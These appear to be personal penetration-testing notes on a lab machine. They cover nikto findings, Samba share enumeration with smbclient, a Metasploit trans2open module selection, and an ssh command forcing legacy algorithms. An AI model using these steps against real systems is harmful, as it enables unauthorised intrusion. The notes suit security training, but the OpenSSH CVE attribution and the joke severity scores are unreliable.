 mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. - (nikto scan results)

Apache httpd 1.3.20

SMB: Samba 2.2.1a
msf > use exploit/linux/samba/trans2open

└─$ smbclient -L \\\\10.0.2.15\\ 

IPC$            IPC       IPC Service (Samba Server)
ADMIN$          IPC       IPC Service (Samba Server)
└─$ smbclient \\\\10.0.2.15\\IPC$ or ADMIN$

SSH: OpenSSH 2.9p2 (CVE-2023-38408)
RCE vulnerability (score: bing bong)

ssh 10.0.2.15 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss -c aes128-cbc (establish a connection >.<

Webalizer Version 2.01 (CVE-2002-0180)
XSS vulnerability (score: ~7)


